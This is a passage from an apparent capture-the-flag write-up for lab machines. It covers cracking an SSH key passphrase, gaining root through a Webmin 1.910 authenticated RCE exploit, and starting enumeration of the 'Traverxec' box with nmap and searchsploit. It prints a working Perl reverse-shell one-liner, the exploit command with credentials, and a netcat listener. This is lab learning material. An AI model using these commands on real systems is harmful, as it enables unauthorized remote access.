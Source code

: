 Trying to login as Matt we see that there is a passphrase so lets try to crack it, using ssh2john.py and we get a passphrase after cracking that hash which is computer2008 .

and trying to login to the system with the user matt and id_rsa key and entering the passphrase we get a connection reset lets try su user and also try it on webmin. 
We dont find anything usefull in as the session as Matt, but loggin into webmin and looking for some authenticated exploits we come across this : https://github.com/wrighterase/webmin-1.910-authenticated-RCE

For this exploit to work we have to base64 encode our perl reverse shell.

```perl 
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

and then also url encode this you can use cyberchef for this and then run the exploit like this and a netcat reverse shell listner like listed below :

```bash
python2 webmin-1.910-authenticated-RCE.py -u Matt -x computer2008 -r 10.10.10.160 -p 10000
rlwrap nc -nvlp 1234
```

and gg we get our root shell.


# Linux : Traverexec : 10.10.10.165 : Easy 

#### Nmap Results : 
```
Nmap scan report for 10.10.10.165
Host is up (0.063s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

This was a fairly simple box in this case if you see versions or services other than like Apache and stuff ideally my first approach would be to go for searchsploit or google search for vulnerabilities on that specific service. 

Doing a Simple searchsploit on nostromo :

```
searchsploit nostromo
```
